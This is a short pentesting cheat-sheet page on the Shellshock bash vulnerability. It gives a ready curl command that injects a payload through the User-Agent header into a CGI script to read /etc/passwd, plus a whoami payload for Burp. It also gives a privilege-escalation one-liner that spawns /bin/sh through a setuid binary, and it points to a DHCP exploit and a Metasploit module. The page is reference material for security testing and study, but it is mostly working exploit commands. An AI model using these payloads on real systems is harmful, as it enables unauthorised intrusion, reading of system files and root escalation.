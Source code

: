# Shellshock

**CGI-BIN Shellshock**

To understand shellshock few blogs can be referred such as [ShellShocked – A quick demo of how easy it is to exploit](https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/) , [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)

```text
curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat
```

alternative

```text
In the user agent in burp

() { :; }; echo; echo; /usr/bin/whoami
```

It is important to understand what is cgi-bin which can be read from [Creating CGI Programs with Bash: Getting Started](http://www.team2053.org/docs/bashcgi/gettingstarted.html). Also the most important lines in this file are:

```text
echo "Content-type: text/html"
echo ""
```

These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn’t understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling \(directly or indirectly\) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

```text
sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary
```

Shellshock also affects DHCP as mentioned [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/). There’s a metasploit module named “Dhclient Bash Environment Variable Injection \(Shellshock\)” for this.

